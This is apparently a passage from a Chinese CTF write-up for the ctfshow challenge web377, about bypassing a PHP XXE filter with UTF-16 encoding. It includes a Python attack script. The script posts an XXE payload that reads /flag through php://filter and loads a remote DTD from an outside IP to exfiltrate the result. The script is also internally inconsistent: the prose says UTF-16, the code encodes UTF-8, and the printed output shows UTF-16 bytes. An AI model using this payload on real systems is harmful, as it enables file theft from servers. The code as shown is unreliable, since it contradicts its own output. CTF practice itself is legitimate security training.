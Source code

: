 比较与上题的区别，正则后面添加了一个/i表示整个匹配不区分大小写

和上一题的payload相同



### web377

```php
<?php
error_reporting(0);
libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');
if(preg_match('/<\?xml version="1\.0"|http/i', $xmlfile)){
    die('error');
}
if(isset($xmlfile)){
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
}
highlight_file(__FILE__);    
```

我们来看和上题的区别，添加了对http的限制

在xml文档的编码中，不仅支持utf-8编码，同时也支持utf-16编码，所以我们也可以将payload转为utf-8编码，然后post传送数据

```py
import requests

url = "http://c5cd315f-3854-4073-b5dc-42c8d51f32e4.challenge.ctf.show/"
payload = '''
<!DOCTYPE hacker[
    <!ENTITY  % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
    <!ENTITY  % dtds SYSTEM "http://154.8.183.198/test/test.dtd">

    %dtds;
]> 

<root>
1
</root>'''
payload = payload.encode('utf-8')
print(payload)
re = requests.post(url, data=payload)
print(re.text)
#b'\xff\xfe\n\x00<\x00!\x00D\x00O\x00C\x00T\x00Y\x00P\x00E\x00 \x00h\x00a\x00c\x00k\x00e\x00r\x00[\x00\n\x00 \x00 \x00 \x00 \x00<\x00!\x00E\x00N\x00T\x00I\x00T\x00Y\x00 \x00 \x00%\x00 \x00f\x00i\x00l\x00e\x00 \x00S\x00Y\x00S\x00T\x00E\x00M\x00 \x00"\x00p\x00h\x00p\x00:\x00/\x00/\x00f\x00i\x00l\x00t\x00e\x00r\x00/\x00r\x00e\x00a\x00d\x00=\x00c\x00o\x00n\x00v\x00e\x00r\x00t\x00.\x00b\x00a\x00s\x00e\x006\x004\x00-\x00e\x00n\x00c\x00o\x00d\x00e\x00/\x00r\x00e\x00s\x00o\x00u\x00r\x00c\x00e\x00=\x00/\x00f\x00l\x00a\x00g\x00"\x00>\x00\n\x00 \x00 \x00 \x00 \x00<\x00!\x00E\x00N\x00T\x00I\x00T\x00Y\x00 \x00 \x00%\x00 \x00d\x00t\x00d\x00s\x00 \x00S\x00Y\x00S\x00T\x00E\x00M\x00 \x00"\x00h\x00t\x00t\x00p\x00:\x00/\x00/\x001\x005\x004\x00.\x008\x00.\x001\x008\x003\x00.\x001\x009\x008\x00/\x00t\x00e\x00s\x00t\x00/\x00t\x00e\x00s\x00t\x00.\x00d\x00t\x00d\x00"\x00>\x00\n\x00\n\x00 \x00 \x00 \x00 \x00%\x00d\x00t\x00d\x00s\x00;\x00\n\x00]\x00>\x00 \x00\n\x00\n\x00<\x00r\x00o\x00o\x00t\x00>\x00\n\x001\x00\n\x00<\x00/\x00r\x00o\x00o\x00t\x00>\x00'
```
